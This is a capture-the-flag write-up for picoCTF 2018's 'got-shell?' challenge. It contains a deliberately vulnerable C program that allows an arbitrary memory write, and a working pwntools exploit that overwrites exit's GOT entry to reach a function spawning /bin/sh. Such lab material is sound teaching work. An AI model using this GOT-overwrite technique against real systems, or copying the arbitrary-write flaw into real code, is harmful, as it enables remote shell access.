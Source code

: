got-shell? - Points: 350
===========

## Description

>Can you authenticate to this service and get the flag? Connect to it with nc 2018shell1.picoctf.com 23731

## Hint:

> * Ever heard of the Global Offset Table?

## Vulnerable Code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <sys/types.h>

void win() {
  system("/bin/sh");
}

int main(int argc, char **argv) {

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[256];
  
  unsigned int address;
  unsigned int value;

  puts("I'll let you write one 4 byte value to memory. Where would you like to write this 4 byte value?");

  scanf("%x", &address);

  sprintf(buf, "Okay, now what value would you like to write to 0x%x", address);
  puts(buf);
  
  scanf("%x", &value);

  sprintf(buf, "Okay, writing 0x%x to 0x%x", value, address);
  puts(buf);

  *(unsigned int *)address = value;

  puts("Okay, exiting now...\n");
  exit(1);
  
}
```

## Useful Information

$rabin2 -R got-shell |grep exit
> * vaddr=0x0804a014 paddr=0x00001014 type=SET_32 exit

nm got-shell|grep win 
> * 0804854b T win

## Exploit

**REQUIRE** :[Pwntools Python](https://github.com/Gallopsled/pwntools)

**Give the address of win as content and the addresss of exit as destination :**

```python
#!/usr/bin/python2.7
from pwn import *
import time,sys

exit="0804a014"
win="0804854b"
rem = remote("2018shell3.picoctf.com",23731)
rem.recv(4096)

rem.sendline(exit)
rem.recv(4096)
rem.sendline(win)

rem.interactive()
```


